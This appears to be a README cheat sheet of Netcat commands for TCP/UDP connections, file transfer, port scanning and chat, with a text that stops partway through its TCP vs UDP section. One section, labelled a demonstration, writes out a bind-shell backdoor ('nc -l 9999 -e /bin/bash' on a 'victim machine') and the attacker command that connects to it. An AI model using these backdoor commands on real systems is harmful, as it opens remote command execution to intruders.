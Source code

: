 # Netcat-

# Netcat Command Examples Cheat Sheet

 Netcat is a versatile network tool, often referred to as the "Swiss Army Knife" of networking due to its wide range of functionalities. This guide is designed for **educational purposes**, helping users understand and implement common Netcat use cases.

---

## Table of Contents
- [Introduction to Netcat](#introduction-to-netcat)
- [Syntax Overview](#syntax-overview)
- [Examples](#examples)
  - [Create a Connection Using TCP](#create-a-connection-using-tcp)
  - [Create a Connection Using UDP](#create-a-connection-using-udp)
  - [Transfer Files Between Systems](#transfer-files-between-systems)
  - [Port Scanning](#port-scanning)
  - [Chatting Between Machines](#chatting-between-machines)
  - [Create a Backdoor (Demonstration Only)](#create-a-backdoor-demonstration-only)
- [Bonus: TCP vs UDP](#bonus-tcp-vs-udp)
- [Contributions](#contributions)

---

## Introduction to Netcat
Netcat is a command-line networking utility that enables communication between computers over TCP or UDP protocols. It can be used for various tasks such as:
- File transfers
- Chat applications
- Port scanning
- Running commands remotely

Netcat is simple to use and an essential tool for anyone interested in network communication.

---

## Syntax Overview

nc [options] [hostname] [port]

Key Options:
-l: Listen mode (server mode) for incoming connections.
-u: Use UDP instead of TCP for connections.
-v: Verbose mode, providing additional output for troubleshooting.
-z: Zero I/O mode for port scanning (no data sent or received).
-e <program>: Executes the specified program after a connection is established (removed in modern implementations for security reasons).
Common Syntax Patterns:
Listening for connections:


nc -l [port]
Example: nc -l 8080 listens on port 8080 for incoming TCP connections.

Connecting to a remote host:

nc [hostname] [port]
Example: nc 127.0.0.1 8080 connects to localhost on port 8080.

Transferring files:

Sender:

nc [receiver_ip] [port] < file_to_send
Receiver:

nc -l [port] > received_file
Port scanning:

nc -z -v [hostname] [start_port]-[end_port]
Example: nc -z -v 127.0.0.1 1-100 scans ports 1 to 100 on localhost.

UDP connections:

nc -u [hostname] [port]
Example: nc -u 127.0.0.1 9999 establishes a UDP connection on port 9999.

Establishing a backdoor (for demonstration purposes):

nc -l [port] -e /bin/bash
Example: nc -l 9999 -e /bin/bash opens a backdoor on port 9999 to execute commands.

Examples
Create a Connection Using TCP
Listener:

nc -l 8080
Client:

nc 127.0.0.1 8080
This establishes a TCP connection between the listener and client.

Create a Connection Using UDP
Listener:

nc -l -u 999
Client:

nc -u 127.0.0.1 999
This establishes a UDP connection on port 999.

Transfer Files Between Systems
Receiver (Linux):

nc -l 9999 > received.file
Sender (Mac):

nc <IP_address> 9999 < file_to_send.file
This transfers a file from the sender to the receiver.

Port Scanning
Verbose Scanning:

nc -v -n 127.0.0.1 1-100
Zero I/O Mode Scanning:

nc -z 127.0.0.1 1-100
This scans for open ports within the specified range.

Chatting Between Machines
Establish a TCP connection as shown in the TCP example, and use the terminal to send messages back and forth.

Create a Backdoor (Demonstration Only)
Listener (Victim Machine):

nc -l 9999 -e /bin/bash
Attacker Access:

nc <IP_address> 9999
Warning: This example is for educational purposes only. Unauthorized use of this functionality is illegal.

Bonus: TCP vs UDP
TCP:

Reliable, ensures data delivery.
Slower due to error-checking mechanisms.
Ideal for tasks requiring accuracy (e.g., file transfers).
UDP:






